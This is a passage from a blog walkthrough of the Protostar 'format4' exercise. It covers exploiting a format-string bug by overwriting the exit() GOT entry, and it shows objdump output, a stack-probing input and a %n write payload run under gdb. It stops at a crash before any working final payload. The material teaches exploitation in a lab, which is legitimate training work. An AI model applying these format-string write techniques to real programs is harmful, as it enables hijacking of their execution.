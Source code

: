 We are going to redirect the execution flow by overwriting the entry for the
`exit()` function in the Global Offset Table (GOT). Without going into great
detail, the GOT is essentially how shared library functions are loaded in a
dynamically linked ELF binary. Eli Bendersky's [blog post][got-blog-post] has
a good explanation on how it works.

Taking a look at the binary with objdump, we see that the `exit()` function has
an entry in the GOT at `0x08049724`. If we overwrite the value at that address
with the memory address of `hello()` we should be successful.


```shell
user@protostar:/opt/protostar/bin$ objdump -TR /opt/protostar/bin/format4

/opt/protostar/bin/format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

As with all format string attacks, we start by locating the input string on the
stack.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*3 + '%x'" | /opt/protostar/bin/format4
AAAA200.b7fd8420.bffff5c4.41414141
```

Next, we attempt to write all 4 bytes of the `exit()` GOT entry.

```shell
user@protostar:/tmp$ python -c "print '\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08' + '%x.'*3 + '%n%n%n%n'"> a
(gdb) run < a
Starting program: /opt/protostar/bin/format4 < a
200.b7fd8420.bffff5b4.

Program received signal SIGSEGV, Segmentation fault.
0x26262626 in ?? ()
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/